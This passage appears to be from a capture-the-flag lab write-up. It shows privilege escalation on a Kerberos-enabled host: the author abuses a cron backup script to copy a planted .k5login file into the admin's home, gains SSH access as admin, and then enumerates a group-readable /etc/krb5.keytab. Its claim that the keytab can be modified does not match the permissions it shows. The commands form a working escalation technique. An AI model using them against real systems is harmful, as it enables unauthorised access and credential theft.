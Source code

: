 ```py
# *  *  *  *  * user-name  command to be executed
* * * * * admin /usr/local/bin/log_backup.sh
```

What the script basically does is copy the contents of the `/var/log/squid/` directory to `/home/admin`.

`log_backup.sh`
```bash
#!/bin/bash

/usr/bin/rsync -avz --no-perms --no-owner --no-group /var/log/squid/ /home/admin/
cd /home/admin
/usr/bin/tar czf squid_logs.tar.gz.`/usr/bin/date +%F-%H%M%S` access.log cache.log
/usr/bin/rm -f access.log cache.log
```

Since kerberos authentication for ssh is enabled on this machine, this means we can drop a .k5login in the `/var/log/squid/` directory, it get's copied to admin's home folder and we can ssh into the machine as him.

```py
[j.nakazawa@srv01 ~]$ echo "j.nakazawa@REALCORP.HTB" > /var/log/squid/.k5login
```

After some time we can log in as the admin user from our local machine. This might not work the first time, but should work tried repeatedly.

```py
$ ssh admin@srv01.realcorp.htb
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Wed Jun 16 08:28:01 2021
[admin@srv01 ~]$ 
```

## Keytab to root

Looking around we find the `/etc/krb5.keytab` file, that is owned by the admin group, which means we can modify it.

```py
[admin@srv01 ~]$ ls -la /etc/krb5.keytab
-rw-r-----. 1 root admin 1403 Dec 19 06:10 /etc/krb5.keytab
```

```
[admin@srv01 ~]$ klist -k /etc/krb5.keytab
Keytab name: FILE:/etc/krb5.keytab
KVNO Principal
---- --------------------------------------------------------------------------
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
[admin@srv01 ~]$ 
```
